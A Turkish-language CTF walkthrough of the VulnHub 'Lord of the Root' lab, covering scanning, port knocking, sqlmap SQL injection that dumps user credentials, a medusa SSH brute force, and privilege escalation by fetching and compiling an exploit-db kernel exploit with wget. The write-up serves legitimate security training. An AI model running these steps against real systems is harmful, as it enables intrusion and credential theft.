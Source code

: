 

İndirme Linki; https://www.vulnhub.com/entry/lord-of-the-root-101%2C129/

Lab kurulumunu tamamladıktan sonra sanal makinenin ip adresini bulmak için

<code>netdiscover -i eth1 -r 192.168.56/24 </code>  komutunu çalıştırıyoruz.
![1](https://user-images.githubusercontent.com/32979760/115157062-e6548b80-a08f-11eb-845a-7d17f1ce0738.PNG)

![2](https://user-images.githubusercontent.com/32979760/115157080-f66c6b00-a08f-11eb-9f61-bde36fe19ada.PNG)

Yukarıda çıktıya baktığımızda sanal makinenin ip adresini bulmuş olduk.Şimdi gelecek adımda nmap taraması yapacağız.

<code>nmap -T5 -A -n 192.168.56.104 </code> 

komutunu çalıştırıyoruz

![3](https://user-images.githubusercontent.com/32979760/115157157-5cf18900-a090-11eb-900d-553683414dcc.PNG)

Çıktıdan anlaşılacağı üzere ssh servisinin açık olduğunu görüyoruz ve ssh bağlantısı kurmaya çalışıyoruz.
<code>ssh root@192.168.56.104</code>
komutunu çalıştırıyorum.

![4](https://user-images.githubusercontent.com/32979760/115157220-b8bc1200-a090-11eb-83e9-e240c7105d88.PNG)

Çıktıya baktığımızda port knocking işlemi yapmamız gerektiği mesajı verilmiştir.

Buradaki python toolu indirilmiştir; https://github.com/grongor/knock

<code>./knock.py 192.168.56.104 1 2 3 </code>

komutunu çalıştırıyoruz ve portları knockluyoruz.

![5](https://user-images.githubusercontent.com/32979760/115157381-9a0a4b00-a091-11eb-89eb-efa0e17613c0.PNG)

Ve tekrar nmap ile tarama yapıyoruz.

<code>nmap -T5 -sS -A -n 192.168.56.104 --top-ports 1000 </code>

komutunu çalıştırıyoruz.

![6](https://user-images.githubusercontent.com/32979760/115157471-10a74880-a092-11eb-8c46-fcd3378537c4.PNG)

Çıktıda görüleceği üzere 1337. portun açık olduğu görülmüştür ve web sitesi ziyaret edilmiştir.

![7](https://user-images.githubusercontent.com/32979760/115157551-99be7f80-a092-11eb-86cd-4f44efa4fbd6.PNG)

Web sitesini ziyaret ettiğimizde bir fotoğraf ve üzerinde yüzüğü mordora götüreceğim diye bir yazı yazmaktadır.
Sitenin kaynak koduna bakıldığında sadece fotoğrafın tek satırlık img srcsi görülmüştür bu sayfadan bir şey elde edemeyeceğimiz anlaşılmıştır ve dizin keşfine geçilmiştir.

<code>dirb http://192.168.56.104/1337 </code>

komutu çalıştırılmıştır.

![8](https://user-images.githubusercontent.com/32979760/115157993-ad6ae580-a094-11eb-9b54-0d622a0bab96.PNG)

ve çıktıdan görebileceğimiz gibi images klasörü bulunmuştur, images klasöründeki dosyalar indirilmiş fotoğrafların kontrast ayarlarıyla oynanmış exiftool ve binwalk ile incelenmiştir.Bu araştırmalardan herhangi bir sonuç elde edilememiştir.Her CTF'de kontrol edilmesi gereken sayfalardan birisi olan robots.txt'ye bakılmıştır.

![9](https://user-images.githubusercontent.com/32979760/115158146-7c3ee500-a095-11eb-9b45-17909bbb7b61.PNG)

Yukarıdaki çıktıda gördüğümüz gibi bizi yine bir fotoğraf karşılamaktadır ve sayfanın kaynak koduna bakılmıştır.

![10](https://user-images.githubusercontent.com/32979760/115158221-c7f18e80-a095-11eb-9922-1bc2baa26ef7.PNG)

ve çıktıda göreceğimiz üzere bir şeyler bulduk. 2 defa encode edilmiş base64 formatında görüyoruz bunları decode ediyoruz.

![11](https://user-images.githubusercontent.com/32979760/115158353-6978e000-a096-11eb-8116-c0e53f3953b3.PNG)

çıktıda bulduğumuz dizine gidiyoruz.

![12](https://user-images.githubusercontent.com/32979760/115158402-a04ef600-a096-11eb-9bcc-63fa18bd0910.PNG)

ve bizi mordorun kapıları karşılıyor :) .
Bu giriş sayfasında sql injection açığı olduğu düşünülmüştür ve gerekli testlere devam edilmiştir
Burpu çalıştırıyoruz intercepti aktif edip post isteği atıyoruz ve buradaki isteği kaydediyoruz.

![14](https://user-images.githubusercontent.com/32979760/115158581-882ba680-a097-11eb-8cf1-bb82d49f2071.PNG)

buradaki isteği kaydettikten sonra text editör ile açıyoruz

![15](https://user-images.githubusercontent.com/32979760/115158650-dc368b00-a097-11eb-8b65-d93c208f224c.PNG)

gördüğünüz gibi usertest yazısının sonuna * karakteri eklenmiştir.Bu burp için post isteğinin, payloadların nereye gönderileceği belirtilmiştir.Dosyayı kaydedip kapatıyoruz.

<code>sqlmap -r burpresult.txt(dosya adımız) --technique T --dbms mysql --dbs </code>

komutunu çalıştırıyoruz ve açığın var olduğunu görüp veritabanı isimlerini çekmeyi başlıyoruz.

![16](https://user-images.githubusercontent.com/32979760/115159382-8bc12c80-a09b-11eb-8a64-90496a8f0fc8.PNG)

Veritabanı isimlerine bakıldığında Webapp adlı veritabanının bilgileri çekileceği aşikardır.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T --tables -D Webapp </code>

![17](https://user-images.githubusercontent.com/32979760/115159498-12760980-a09c-11eb-9987-4817fbe2b799.PNG)
![18](https://user-images.githubusercontent.com/32979760/115159528-376a7c80-a09c-11eb-87ed-046d6005935c.PNG)

Tek tablo olan Users tablosunun içerisindeki kolonları çekmeye başlayalım ama önce kolon içerisindeki verileri çekmek için kolon isimlerini öğrenelim.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T -D Webapp -T Users --columns</code>
![19](https://user-images.githubusercontent.com/32979760/115159674-ffb00480-a09c-11eb-9055-972398caaeff.PNG)

burada bize lazım olan username ve password kolonları olduğu için oradaki verileri çekmeye başlıyoruz.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T -D Webapp -T Users -C username --dump </code>
  
![20](https://user-images.githubusercontent.com/32979760/115159839-c75cf600-a09d-11eb-9e06-8a69ee243808.PNG)

username bilgilerini çektik şimdi password bilgilerini çekelim.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T -D Webapp -T Users -C password --dump </code>

![21](https://user-images.githubusercontent.com/32979760/115159999-929d6e80-a09e-11eb-9f45-0d6a1eaf7c8c.PNG)

bu çektiğimiz kullanıcı adı ve şifreleri bir text dosyasına yazıyoruz
![22](https://user-images.githubusercontent.com/32979760/115160052-d98b6400-a09e-11eb-9f03-4bd0fe7f4c3a.PNG)
![23](https://user-images.githubusercontent.com/32979760/115160053-da23fa80-a09e-11eb-98e5-cd5a4f84eb3e.PNG)

Hangi kullanıcının ssh ile bağlanma yetkisi olup olmadığını bilmediğimiz için ssh servisine medua ile brut force denemesi yapacağız.
<code>medusa -h 192.168.56.104 -U users -P passwords -M ssh </code>

![24](https://user-images.githubusercontent.com/32979760/115160119-3a1aa100-a09f-11eb-8c9b-3f8abd14638d.PNG)
Brute force atağımız sonuç verdi ve kullanıcı adı ve parolayı bulduk şimdi bu bilgilerle ssh bağlantısı yapıyoruz.

<code>ssh smeagol@192.168.56.104 </code>

buradan sonra bize parola soruluyor ve buraya </code>MyPreciousR00t</code> parolasını giriyoruz ve shelle düşüyoruz.Shelle düştükten sonra whoami yazıp kim olduğumuzu görüyoruz.

![25](https://user-images.githubusercontent.com/32979760/115160219-c036e780-a09f-11eb-8ae2-27af12ec2a03.PNG)

root olmadığımızı görüyoruz ve bu sistemde hak yükseltmek için exploit olup olmadığını araştırmamız gerekiyor.İlk olarak

<code>uname -a </code>

komutunu çalıştırıyoruz ve sistem bilgilerini, sürümünü görüyoruz.

![26](https://user-images.githubusercontent.com/32979760/115160265-1146db80-a0a0-11eb-9ed2-0ab8b78122dd.PNG)

Sistem bilgilerini google arama motoruna yazıp exploit araştırıyoruz.

![27](https://user-images.githubusercontent.com/32979760/115160327-566b0d80-a0a0-11eb-9b1c-56b20cb80cab.PNG)

Burada karşımıza 2 tane exploit çıkıyor bunun ilkini deniyoruz.

<code>wget https://www.exploit-db.com/download/39166 </code>

![28](https://user-images.githubusercontent.com/32979760/115160393-96ca8b80-a0a0-11eb-9a34-9113ee773e1d.PNG)

Ardından aşağıdaki fotoğrafta gösterildiği gibi komutları sırasıyla girip C kodumuzu derleyip çalıştırıyoruz.

![29](https://user-images.githubusercontent.com/32979760/115160459-e14c0800-a0a0-11eb-813a-8095214fa1cb.PNG)

whoami yazdığımızda ise görüldüğü üzere root olduğumuzu görüyoruz.

![30](https://user-images.githubusercontent.com/32979760/115160497-22441c80-a0a1-11eb-815d-f1079700c1aa.PNG)

ve root dizinine gidip içerisindeki Flag.txtyi okuyup CTF'i burada sonlandırıyoruz.

Okuduğunuz için teşekkürler.






